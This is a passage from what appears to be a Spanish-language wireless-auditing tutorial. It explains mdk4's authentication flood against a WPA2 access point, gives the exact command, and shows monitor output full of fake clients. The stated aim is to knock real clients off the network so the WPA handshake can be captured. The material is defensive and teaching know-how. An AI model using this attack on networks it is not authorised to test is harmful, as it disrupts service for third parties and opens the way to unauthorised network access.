 En breve les voy a enseñar cómo usar esta herramienta. Solo quiero que se queden con el concepto de estos ataques. La idea principal es generar o añadir la mayor cantidad posible de clientes al AP para saturarlo, de modo que el AP comience a desconectar a los clientes y así obtener el **handshake**.

## Tipos de ataques con mdk4
---
Con esta herramienta, aplicaremos una variedad de ataques más complejos que los disponibles en **aireplay**. **MDK4** se utiliza principalmente en auditorías de seguridad de redes, enfocándose en la parte ofensiva, y forma parte de la suite Aircrack-ng. Aunque algunos de estos ataques pueden realizarse con aireplay, **MDK4** es más útil como herramienta de apoyo para llevar a cabo ataques más agresivos y variados.

---
Para ver qué ataques tiene disponibles la herramienta **mdk4**, se usa el comando `mdk4 --help`.


### Authentication DoS mode

Ahora, ¿qué ataque haremos con la herramienta mdk4? Bueno, el nombre de este ataque con **mdk4** es **Authentication DoS mode**. Lo que hace este ataque es añadir muchos clientes falsos muy rápidamente. El parámetro para activar este ataque es el `a` y el parámetro `-a` indica el bssid del AP objetivo.

```bash
[root@arch ~]# mdk4 wlan0mon a -a 15:E7:95:73:D4:90
```

Esto es lo que veremos cuando estemos monitoreando el AP objetivo:

```bash

CH  7 ][ Elapsed: 0 s ][ 2019-08-08 20:12                                         
                                                                                                                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                       
 15:E7:95:73:D4:90  -26 100       29        7    3   7  180  WPA2 CCMP   PSK  testwifi
 
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                       
 20:34:FB:B1:C5:53  3E:A1:41:E1:FC:67    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  21:3D:DC:87:70:E9    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  54:11:0E:82:74:41    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  AB:B2:CD:C6:9B:B4    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  05:17:58:E9:5E:D4    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  31:58:A3:5A:25:5D    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  C9:9A:66:32:0D:B7    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  76:5A:2E:63:33:9F    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  54:F8:1B:E8:E7:8D    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  F2:FB:E3:46:7C:C2    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  4A:EC:29:CD:BA:AB    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  67:C6:69:73:51:FF    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  3E:01:7E:97:EA:DC    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  6B:96:8F:38:5C:2A    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  EC:B0:3B:FB:32:AF    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  3C:54:EC:18:DB:5C    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  02:1A:FE:43:FB:FA    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  AA:3A:FB:29:D1:E6    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  05:3C:7C:94:75:D8    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  BE:61:89:F9:5C:BB    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  A8:99:0F:95:B1:EB    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  F1:B3:05:EF:F7:00    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  E9:A1:3A:E5:CA:0B    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  CB:D0:48:47:64:BD    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  1F:23:1E:A8:1C:7B    0    0 - 1      0        1                       
 20:34:FB:B1:C5:53  64:C5:14:73:5A:C5    0    0 - 1      0        1                       
```